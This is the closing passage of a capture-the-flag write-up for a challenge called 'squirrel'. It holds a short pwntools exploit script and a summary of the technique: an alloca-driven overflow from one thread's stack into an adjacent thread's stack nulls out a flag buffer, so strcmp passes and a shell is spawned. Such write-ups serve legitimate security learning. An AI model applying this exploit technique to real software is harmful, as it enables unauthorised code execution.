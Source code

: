 ```python
r.sendlineafter(b'Surname Length: ',str(0x400-23).encode())

r.sendlineafter(b'First Name:',b'\x00'*0x20+b'\n') ##### filling the name/flag buffer with null
r.sendlineafter(b'Surname:',b'\x00'*0x10+b'\n')
r.sendlineafter(b'Enter security token:',b'\x00'*100+b'\n')
r.interactive()
```

---

## 🐿️ Summary

Here's a quick summary for time-pressed readers 

The core idea was about **multithreading**: two threads, `userinfo` and `auth`, running side by side.

- `userinfo` asked for your name and allocated memory on the stack using `alloca`.
- `auth` read the flag into its own stack buffer and waited for `userinfo` to finish.

On remote, the thread stacks were **contiguous** — only a tiny guard page separating them.

Using `alloca`, we could allocate a massive buffer in `userinfo` and **overflow into `auth`'s stack**, right where the flag was stored!

we could overwrite the start of the flag buffer with **null bytes**. Since `strcmp` stops at the first null, it would treat our null-filled input as matching — and **trigger a shell**.

---

### Useful links

https://www.scaler.com/topics/multithreading-in-c/

https://www.codequoi.com/en/threads-mutexes-and-concurrent-programming-in-c/

***about me***

https://x.com/Anuj1337

https://github.com/Anony6174

---





---

> Author: _d1ff  
> URL: http://localhost:1313/d1ff/posts/squirrel_writeup/38114d4/  

